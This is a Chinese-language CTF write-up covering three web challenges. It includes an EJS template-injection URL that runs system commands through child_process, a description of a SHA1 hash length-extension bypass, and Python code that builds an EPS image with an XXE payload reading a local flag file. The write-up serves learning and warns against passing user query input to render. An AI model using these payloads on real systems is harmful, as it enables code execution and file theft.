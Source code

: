 ### blob / nm
附件特别短
```js
require("express")()
  .set("view engine", "ejs")
  .use((req, res) => res.render("index", { blob: "blob", ...req.query }))
  .listen(3000);
```
从render调用方式可以判断这个题是有模板的。也没什么思路，就随便搜了搜`ejs template injection`，结果搜出了express的[issue](https://github.com/mde/ejs/issues/735)

```
http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```

但这个洞似乎并不值得给CVE，因为本来就不应该把用户输入可控的`req.query`直接交给EJS的`render`。

再强调一遍，永远不要直接写：`res.render('index', req.query)`

### dogdays / nm
PHP hash绕过，核心是这一句：`if(sha1("TEST SECRET1".$pic)==$hash){`

一开始以为是弱类型，但其实1. 现在PHP不能`"22ab" == "22"`了。2. `0e123`这种科学计数法要求后面全是数字，概率极低。

到很后面我才发现原来网站给了几个示例的hash。那么就可以直接hash extension attack了。可以用`hlextend`库

### domdom / nm
放最后是因为这题花了最多精力，考验意外的处理能力。

这个题给的路径很清晰：能上传图片，只支持jpg和png扩展名，但会在扩展名后加随机数字。能用PIL读已上传图片的辅助信息返回一个字典（包含`image.info.get('Comment')`）。能访问内网，把返回的数据用json解码，取出`Comment`字段，用lxml，带实体解析解码。所以目标就是上传一个带XXE的Comment的图片。

但是PIL的表现就比较幽默了：

- jpg, gif, gbr: 确实会读取comment，但是读的是`self.info['comment']`全小写的
- im: 读的确实是`Comment`，但是默认Comment会有很多条，会塞到一个list里。最后出来的XML最前面是`[`，解析失败。

最后从官方的[PIL所有支持格式](https://pillow.readthedocs.io/en/latest/handbook/image-file-formats.html#iptc-naa)发现，发现EPS作为一个纯文本格式似乎可以指定未定义的Comment字段，于是：

```py
comment = \
f"""<!DOCTYPE b [<!ENTITY xxe SYSTEM  "file:///app/flag.txt">]>
<name>&xxe;</name>""".replace('\n', ' ')

EXAMPLE_EPS = f"""%!PS-Adobe-3.0 EPSF-3.0
%%Creator: PIL 0.1 EpsEncode
%%BoundingBox: 0 0 3 3
%%Pages: 1
%%Comment: {comment}
%%EndComments
%%Page: 1 1
%ImageData: 3 3 8 1 0 1 1 "image"
gsave
10 dict begin
/buf 3 string def
3 3 scale
3 3 8
[3 0 0 -3 0 3]
{{ currentfile buf readhexstring pop }} bind
image
000000000000000000
%%%%EndBinary
grestore end"""
```
